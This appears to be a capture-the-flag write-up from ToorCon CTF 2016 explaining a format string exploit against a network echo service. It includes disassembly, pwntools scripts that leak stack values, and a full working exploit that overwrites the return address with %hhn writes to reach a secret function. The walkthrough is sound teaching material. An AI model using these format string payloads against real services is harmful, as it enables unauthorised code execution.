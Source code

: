```yaml
---
layout: post
title: "for matt"
---
```


# for matt - toorcon ctf 2016

  We are told that there exists a vulnerability in the given executable and it's running at a given ip and port number. I had a feeling from the name of the challenge it was a format string bug.

  To use format string vulnerabilities one should note that the `printf` family of functions takes a variable number of arguments and cannot expect the number of arguments passed prior to being called. It uses the format string to evaluate how many arguments are passed and where on the stack they exist. Therefore if user controlled input is provided to it directly (without using a format specifier) then an attacker can read and write arbitrary memory locations.

  Echo is our vulnerable function with user input being passed directly to `sprintf`:

```
[0x080486b0]> pdf@sym.echo
╒ (fcn) sym.echo 236
│   sym.echo ();
│           ; var int local_412h @ ebp-0x412
│           ; var int local_20ch @ ebp-0x20c
│           ; var int local_ch_2 @ ebp-0xc
│           ; var int local_4h @ esp+0x4
│           ; var int local_8h @ esp+0x8
│           ; var int local_ch @ esp+0xc
│           ; CALL XREF from 0x08048b18 (sym.main)
│           0x0804880a      push ebp
│           0x0804880b      mov ebp, esp
│           0x0804880d      sub esp, 0x428
│           0x08048813      mov dword [esp + local_8h], 0x200 
│           0x0804881b      mov dword [esp + local_4h], 0
│           0x08048823      lea eax, [ebp - local_20ch]
│           0x08048829      mov dword [esp], eax
│           0x0804882c      call sym.imp.memset
│           0x08048831      mov dword [esp + local_8h], 0x206 
│           0x08048839      mov dword [esp + local_4h], 0
│           0x08048841      lea eax, [ebp - local_412h]
│           0x08048847      mov dword [esp], eax
│           0x0804884a      call sym.imp.memset
│           ; LEA obj.comm_fd ; "ed Hat 4.8.3-9)" @ 0x8049fe8
│           0x0804884f      mov eax, dword [obj.comm_fd]
│           0x08048854      mov dword [esp + local_ch], 0
│           0x0804885c      mov dword [esp + local_8h], 0x200 
│           0x08048864      lea edx, [ebp - local_20ch]
│           0x0804886a      mov dword [esp + local_4h], edx
│           0x0804886e      mov dword [esp], eax
│           0x08048871      call sym.imp.recv
│           0x08048876      mov dword [ebp - local_ch_2], eax
│           0x08048879      mov eax, dword [ebp - local_ch_2]
│           0x0804887c      mov dword [esp + local_4h], eax
│           ; LEA str.Recv:__d_n ; "Recv: %d." @ 0x8048c49
│           0x08048880      mov dword [esp], str.Recv:__d_n
│           0x08048887      call sym.imp.printf
│           0x0804888c      cmp dword [ebp - local_ch_2], 0
│       ┌─< 0x08048890      jle 0x80488f1
│       │   0x08048892      lea eax, [ebp - local_412h]
│       │   0x08048898      mov dword [eax], 0x56434552 
│       │   0x0804889e      mov word [eax + 4], 0x3a    
│       │   0x080488a4      lea eax, [ebp - local_20ch]
│       │   0x080488aa      mov dword [esp + local_4h], eax
│       │   0x080488ae      lea eax, [ebp - local_412h]
│       │   0x080488b4      add eax, 5
│       │   0x080488b7      mov dword [esp], eax
│       │   0x080488ba      call sym.imp.sprintf
│       │   0x080488bf      lea eax, [ebp - local_412h]
│       │   0x080488c5      mov dword [esp], eax
│       │   0x080488c8      call sym.imp.strlen
│       │   ; LEA obj.comm_fd ; "ed Hat 4.8.3-9)" @ 0x8049fe8
│       │   0x080488cd      mov edx, dword [obj.comm_fd]
│       │   0x080488d3      mov dword [esp + local_ch], 0
│       │   0x080488db      mov dword [esp + local_8h], eax
│       │   0x080488df      lea eax, [ebp - local_412h]
│       │   0x080488e5      mov dword [esp + local_4h], eax
│       │   0x080488e9      mov dword [esp], edx
│       │   0x080488ec      call sym.imp.send
│       └─> 0x080488f1      mov eax, dword [ebp - local_ch_2]
│           0x080488f4      leave
╘           0x080488f5      ret
[0x080486b0]>
```

  I had to find the offset needed to leak the return address so that we could write in the address of the secretFunction. I calculated the return address from the saved ebp (since `%n` takes a pointer, we need the return address's address on the stack) which I was able to leak by calculating the distance from the end of our input buffer.

  Observe the size of our buffer in the disassembly for the echo function; buf is where are our input is.

```
.text:0804880A buf             = byte ptr -412h
.text:0804880A s               = byte ptr -20Ch
.text:0804880A var_C           = dword ptr -0Ch
```

  I leaked the address with what is called direct parameter access by some and the 'dollar sign trick' by others. The idea is you can use a format specifier like so: `%2$08x` to print the second argument to `printf` in hex, padded to a length of eight with zeroes. When finding the index to the saved ebp I used the size of our buffer divided by 4, since each stack entry holds 4 bytes. 

```
gef➤  p/d 0x412
$1 = 1042
gef➤  p/d 1042 / 4
$2 = 260 
gef➤
```

 Finding the index for the saved ebp was straightforward after getting past our huge buf variable, I made note of the address echo returns to; `0x80488b1d` and ran a program like the following.

```python
#!/usr/bin/python

from pwn import *

r = remote('localhost', 6600)
log.info(r.recv())

for i in range(260, 270):
        r.send("%{}$08x".format(str(i)))
        r.recvuntil("RECV:")
        log.info("i = {}: {}".format(str(i), r.recv()))

r.close()
```

```
➜  ~ python getebp.py
[+] Opening connection to localhost on port 6600: Done
[*] hello speedracers...
[*] i = 260: 00000000
[*] i = 261: 00000000
[*] i = 262: 00000011
[*] i = 263: f76d9000
[*] i = 264: ffc75d10
[*] i = 265: ffc75d68 <-- saved ebp
[*] i = 266: 08048b1d
[*] i = 267: 00000005
[*] i = 268: 08048d1b
[*] i = 269: 00000015
[*] Closed connection to localhost port 6600
```

 While running the program in gdb and making note of the saved ebp (`0xffffd658` in the following example) one can deduce the offset for the stack address address where the return address is saved. In the following example you see the top of the stack when eip is at `0x0804880b` (echo subroutine).

```
0xffffd5f8│+0x0000: 0xffffd658  →  0x0   ← $esp
0xffffd5fc│+0x0004: 0x08048b1d  →  <main+551>: mov DWORD PTR [esp+0x4c],eax
```

 Now I could calculate the offset to get the return address.

```
gef➤  p/x 0xffffd658 - 0xffffd5f8  <-- from main's stack frame to echo's
$2 = 0x60
gef➤  x/xw 0xffffd658 - 0x60 + 4   <-- return address :)
0xffffd5fc:     0x08048b1d
gef➤
```

 My plan was to conveniently place the pointer to the return address at the beginning of the input and pass the address to `printf` with direct parameter access. To find the necassary index I wrote some python like we did for ebp.

```python
#!/usr/bin/python

from pwn import *

r = remote('localhost', 6600)
log.info(r.recv())

for i in range(0, 150):
        r.send("AAAA%{}$08x".format(str(i)))
        r.recvuntil("RECV:")
        recieved =  r.recv()
        log.info("i = {}: {}".format(str(i), recieved))
        if '41414141' in recieved:
                success("i = {}: {}".format(str(i), recieved))
                break

r.close()
```

 The script above, when run; shows that the index to our input is 134

 To overwrite echo's return address we need only to write the 2 least significant bytes since echo's return address is `0x8048b1d` and the address of the secretFunction is `0x80487b0`. We can calculate the number of bytes we have to print in order to write the secretFunction address to the return address by simply converting the two desired bytes to decimal.

```
gef➤  p/d 0x87
$1 = 135
gef➤  p/d 0xb0
$2 = 176
gef➤
```

 Thus we calculated the format string in python

```
p32(raplus1) + p32(return_addr)\
+ "A" * (135 - 8) + "%134$hhn" + "A" * (176 - 143 + 8) + "%135$hhn"
```

 Where the 143 + 8 is needed to offset the bytes written for one byte prior to writing the other byte.

```
➜  ~ python pwn66600.py
[+] Opening connection to eric.32774074faceba7c.ctf.land on port 6600: Done
[*] found RA @ ffd0534c
[*] Switching to interactive mode
RECV:MSLSA ..<alot of A>.. A$ SpacesInsteadOfTabs?!
```
## full exploit:

```python
#!/usr/bin/python

from pwn import *

# 134 is our input str
# 265 is our saved ebp

# RA is @ saved ebp - 0x60 + 0x4

# read out & save saved ebp
# calculate address of RA
# write this address at the beginning of
# the string and write with secret functions addr 

r = remote('eric.32774074faceba7c.ctf.land', 6600)
r.send("%265$08x")
r.recvuntil("RECV:")
saved_ebp = pack(u32(r.recv().decode('hex')), 32, "big")

return_addr = u32(saved_ebp) - 0x60 + 4
raplus1 = u32(saved_ebp) - 0x60 + 4 + 1

log.info("found RA @ {:x}".format(return_addr))

r.send(p32(raplus1) + p32(return_addr) \
        + "A" * (135 - 8) + "%134$hhn" \
        + "A" * (176 - 143 + 8) \
        + "%135$hhn")
        # first one is 0x87, second one is 0xb0

r.interactive()

r.close()
```

